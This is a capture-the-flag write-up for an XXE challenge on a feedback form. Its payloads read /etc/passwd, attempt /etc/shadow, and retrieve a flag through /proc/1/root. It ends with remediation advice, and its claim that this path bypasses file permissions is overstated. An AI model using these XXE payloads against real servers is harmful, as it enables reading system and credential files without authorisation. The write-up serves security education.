

# 🐛 Bad Feedback  
**Category:** Web Security  

> A company rolled out a shiny feedback form and insists their customers are completely trustworthy. Every feedback is accepted at face value, no questions asked. What can go wrong?

**Challenge Link:** http://15.206.47.5:5000  
**Hint:** The flag is located in the root directory of the server.

---

## 🔍 Initial Reconnaissance

As soon as the challenge link was opened, it navigated to a simple web page containing a **feedback form** with:
- A **Name** field  
- A **Message** field  
- A **Submit** button  



At first glance, the application looked minimal with no obvious attack surface from the UI itself.

---

## 🕵️ Source Code Inspection

On inspecting the page source, the following JavaScript stood out:

```html
<script>
 // Intercept the form submit and send XML instead of form-encoded data
 document.getElementById('feedback-form').addEventListener('submit', function (e) {
     e.preventDefault();

     const name = document.getElementById('name').value;
     const message = document.getElementById('message').value;

     // Build XML body (players will see this only if they intercept the request)
     const xml =
`<?xml version="1.0" encoding="UTF-8"?>
<feedback>
 <name>${name}</name>
 <message>${message}</message>
</feedback>`;

     fetch('/feedback', {
         method: 'POST',
         headers: {
             'Content-Type': 'application/xml'
         },
         body: xml
     })
     .then(resp => resp.text())
     .then(html => {
         document.open();
         document.write(html);
         document.close();
     })
     .catch(err => {
         alert('Error submitting feedback');
         console.error(err);
     });
 });
</script>
````

---

## 🔍 Key Observation

* User input is **directly injected into an XML document**
* The request is explicitly sent as:

  ```code
  Content-Type: application/xml
  ```

This immediately confirmed that the backend is **parsing user-controlled XML**, which strongly suggested a potential **XML External Entity (XXE)** attack surface.

---

## 🧪 Reproducing the Vulnerability Using Burp Suite

Instead of blindly injecting payloads through the browser, the vulnerability was replicated in a **controlled and repeatable manner using Burp Suite**.

### ▶️ Step 1: Intercepting the Request

* Browser traffic was proxied through **Burp Suite**
* Interception was enabled under:
  `Firefox Browser → FoxyProxy → Burp Suite → Proxy → Intercept`
* The feedback form was submitted with random values

This captured a **POST request to `/feedback`** containing raw XML.


---

### ▶️ Step 2: Inspecting the Raw XML Request

The intercepted request revealed:

* Method: `POST /feedback`
* Header:

  ```http
  Content-Type: application/xml
  ```
* Body:

  ```xml
  <feedback>
    <name>test</name>
    <message>test</message>
  </feedback>
  ```


This confirmed that:
✅ The backend blindly trusts client-generated XML
✅ No validation or sanitization is applied

---

### ▶️ Step 3: Sending the Request to Repeater

To safely iterate:

* The request was sent to **Burp Repeater**
* This allowed testing multiple payloads without resubmitting the form every time

---

## ✅ Verifying XXE Using `/etc/passwd`

To confirm whether **external entity resolution was enabled**, the XML body was replaced with the following payload:

```xml
<?xml version="1.0"?>
<!DOCTYPE feedback [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<feedback>
  <name>test</name>
  <message>&xxe;</message>
</feedback>
```


---

### ✅ Result

The server responded with the **contents of `/etc/passwd`**, proving:

* External entities are enabled
* Arbitrary file read is possible
* The application is **100% vulnerable to XXE**


---

## 🚧 Hitting Permission Barriers

### ▶️ Trying `/etc/shadow`

```xml
<!ENTITY xxe SYSTEM "file:///etc/shadow">
```

❌ Access denied due to permission restrictions.


This revealed that:

* The backend process is running as a **non-root user**
* Privileged files are inaccessible directly

---

### ▶️ Trying `/root/flag.txt`

Since the challenge hint said **flag is in the root directory**, the following was attempted:

```xml
<!ENTITY xxe SYSTEM "file:///root/flag.txt">
```

❌ This also failed due to **permission issues**.

At this point, the direct path to `/root` was clearly restricted.

---

## 🧠 Container Breakthrough: `/proc/1/root` Bypass

Since:

* The application is running inside a **Linux container**
* Direct access to `/root` is blocked

The following container-aware path was tested:

```
/proc/1/root/flag.txt
```

### ❓ Why This Works

* Process **PID 1** is the main application process inside the container
* `/proc/1/root/` points to the **real filesystem root**
* This bypasses traditional file permission boundaries

---

## ✅ Final Working Payload

```xml
<?xml version="1.0"?>
<!DOCTYPE feedback [
  <!ENTITY xxe SYSTEM "file:///proc/1/root/flag.txt">
]>
<feedback>
  <name>attacker</name>
  <message>&xxe;</message>
</feedback>
```


---

## 🚩 Flag

✅ The response successfully contained the flag:

```
FLAG_REDACTED
```

*(Intentionally redacted for public release)*

---

## 🛡️ Why This Vulnerability Is Dangerous

A single XXE misconfiguration can lead to:

* Full file system disclosure
* Credential leaks (`/etc/passwd`, config files)
* Container escape-style access
* Potential SSRF and RCE in extended cases

This makes XXE a **critical-severity vulnerability**.

---

## ✅ Fix & Remediation

To prevent this class of attacks:

* Disable **external entity resolution**
* Disallow **`DOCTYPE` declarations**
* Use hardened XML parsers
* Enforce strict schema validation
* Prefer **JSON over XML** when possible

---

## 🧠 Final Takeaway

This challenge clearly demonstrates how:

> **Blind trust in structured XML input + insecure parsing = full server compromise**

Even with `/root` protected, understanding the Linux process filesystem enabled complete bypass and successful flag retrieval.

---
